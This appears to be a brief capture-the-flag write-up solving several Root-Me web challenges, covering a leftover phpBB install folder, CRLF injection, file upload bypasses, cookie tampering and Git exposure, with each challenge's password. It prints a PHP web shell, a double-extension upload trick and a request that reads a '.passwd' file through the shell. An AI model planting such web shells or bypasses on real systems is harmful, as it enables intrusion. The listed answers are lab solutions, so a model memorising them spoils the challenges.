 # Install files
According to the title, the admin of this page uses phpbb (i dont know what it is) and he forget to delete his install folder, so the idea this to find it

Location: **/phpbb/install/**

pass: karambar

# CRLF
(Carriage return and Line Feed) it means to create new lines (\r\n).
So the idea is to use intercept proxy (e.g. Burp suite) edit request to
```
GET /web-serveur/ch14/?username=%0D%0Aadmin%20authenticated%0D%0INJECTINHERE
```
# File upload - Double extensions
The idea is upload our script and rce. 
(i have tried reverse shell with netcat and ngrok to port fowarding but somehow it didnt work LOL so i use this script from another write up)
```
<?php

$data = system($_GET["cmd"]);
echo $data;

?>
```
now change this to reverse.php.png to bypass the image filter and the final step is rce with cmd param
```
challenge01.root-me.org/web-serveur/ch20/galerie/upload/0c3f5ea659f03569d6fce99cf1233c56/test.php.png?cmd=cat%20../../../.passwd
```
pass: Gg9LRz-hWSxqqUKd77-_q-6G8

# File upload - MIME type
(Kiểu phương tiện là định danh hai phần cho định dạng file và nội dung định dạng được truyền trên Internet.)

So idea here is use Burp to change the header **Content-type**  from **aplication/octet-stream** to **image/png**. Ok now we can upload our script successfully

pass: a7n4nizpgQgnPERy89uanf6T4

# HTTP - Cookies
Use burp to catch request and change the cookie from **visiteur** to **admin**

pass: ml-SYMPA 
# Insecure Code Management
(use Gittools)
